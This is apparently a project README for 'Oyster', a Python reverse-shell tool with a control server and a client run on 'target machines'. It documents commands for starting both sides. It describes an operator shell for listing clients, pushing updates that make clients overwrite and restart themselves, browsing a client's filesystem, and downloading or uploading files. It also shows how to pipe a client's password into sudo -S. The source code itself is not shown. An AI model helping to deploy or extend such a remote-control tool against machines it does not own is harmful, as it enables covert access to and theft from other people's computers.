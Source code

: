 ```python
 .oOOOo.
.O     o.
O       o               O
o       O              oOo
O       o O   o .oOo    o   .oOo. `OoOo.
o       O o   O `Ooo.   O   OooO'  o
`o     O' O   o     O   o   O      O
 `OoooO'  `OoOO `OoO'   `oO `OoO'  o
              o
           OoO'
```

Oyster is a lightweight multi-threaded reverse shell written in python 
3.5.  The server can push updates to the clients, and the clients will
overwrite/restart themselves.

I wrote this after finding an example reverse shell on the thenewboston 
youtube channel.  I saw some things I wanted to improve, so that's what 
I attempted to do.  The clients will continuously try to make a 
connection with the server.

## Control Server

Start `server.py` from the command line.  Here are the keyword arguments 
used for `server.py`:

```
host        - Host IP address.
port        - Host port.
recv_size   - Buffer size for receiving and sending data.
listen      - Maximum number of queued connections.
bind_retry  - How many times to retry binding the socket to the port.
```

Example:

All of the arguments provided below are the defaults except `host`, 
which is a blank string as the default.

```
python3 server.py host=0.0.0.0 port=6667 recv_size=1024 listen=10 bind_retry=5
```

## Oyster Shell

The Oyster Shell is the main interface.  It's what you use to select 
which clients you would like to send commands to, and push updates to 
the `client.py` file on all of the connected target machines.  You know
you're working with the Oyster Shell if you see the following prompt:

```
Oyster> 
```

Commands for the `Oyster` shell are:

```
list                        -   List the connected clients.
    
update all                  -   Update all the connected clients using 
                                `update.py`.  Clients will overwrite 
                                themselves and reboot themselves.
                                
use {target ip/index}       -   Use a target connection.  {target ip/index} 
                                can be found by running the `list` command.

upload                      -   Upload a file to a client.
                                
quit                        -   Shut everything down.
```

### Oyster Shell's `use` Command

The `use` command will drop you into a client shell.  This is used to 
navigate and manipulate the client's computer.  Once executed, the `use` 
command will drop you into a shell for the given connection[ip address 
or index givin by the `list` command].  You'll know you're in a client 
shell when you see an ip address along with a directory structure with a
`> ` at the end:

```
<10.0.0.8> /Some/Directory> 
```


To get out of the connection's shell, run the `quit` command.  This will 
take you back to the `Oyster` shell.

Example:

```
Oyster> use 10.0.0.8
<10.0.0.8> /Users/SomeUser/Remote/Computer/Where/Client.py/Is/Stashed> quit
Oyster> 
```

### Client Shell Commands

There are other client shell commands besides `quit`:

```
get "{target filepath}" "{local filepath}"      -   Download a file from 
                                                    the target.

upload {local filepath} {target filepath}       -   Upload a file to the
                                                    target.

sysinfo                                         -   Get system info from
                                                    the target.
```

Example:

```
Oyster> use 10.0.0.8
<10.0.0.8> /Users/SomeUser/Where/The/Client/Is/Stashed> get ~/Music/song.m4a song.m4a
< File Stashed: song.m4a >
<10.0.0.8> /Users/SomeUser/Where/The/Client/Is/Stashed> 
```

### Using `sudo` with connected clients

`echo` the password and pipe it into the `sudo` command with the `-S`
flag.

```
echo "ClientsPassword" | sudo -S chown $USER:admin /usr/local/include
```

You may need to add a newline character to the end of your password.

```
echo "ClientsPassword\n" | sudo -S chown $USER:admin /usr/local/include
```

Check out the `man` pages for `sudo` on the client if this doesn't work.
I'm not sure how much the `-S` flag differs between unix flavours.

## Client

Start `client.py` on the target machine.  The client should keep itself
up and running, unless it errors out for some odd reason.  When updates
are pushed to the client from the server, the client will overwrite
and restart itself.  It's up to the user to figure out how to get this 
to run on startup or whatever.  Here are startup arguments.

```
host
port
recv_size
```

Example:

```
python3 client.py host=10.0.0.215 port=6667 recv_size=1024
```
